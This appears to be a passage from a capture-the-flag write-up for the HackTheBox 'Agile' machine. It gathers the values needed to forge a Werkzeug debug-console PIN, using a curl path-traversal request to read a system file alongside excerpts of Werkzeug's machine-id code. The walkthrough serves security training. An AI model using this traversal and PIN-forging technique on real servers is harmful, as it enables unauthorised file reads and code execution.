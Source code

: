 Reads the code and collects the parameters necessary for PIN code generation.

## Foothold

### probably_public_bits

`probably_public_bits` is array which has 4 elements.

- username is `"www-data"`
- modname is `"flask.app"`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))` is `"wsgi_app"`
- `getattr(mod, '__file__', None)` is `"/app/venv/lib/python3.10/site-packages/flask/app.py"`

### private_bits

`private_bits` is array which has 2 elements.

```console
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../sys/class/net/eth0/address'
00:50:56:b9:ce:18

root@kali:~/htb/Machines/Agile# python3 -c 'print(0x005056b9ce18)'
345052401176
```

`private_bits` first element is `"345052401176"`.

---

```python
# excerpted /app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
# (snip)
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break
```

Since `/etc/machine-id` is readable, `/proc/sys/kernel/random/boot_id` is not included as a parameter.

```python
# excerpted /app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux
# (snip)
```
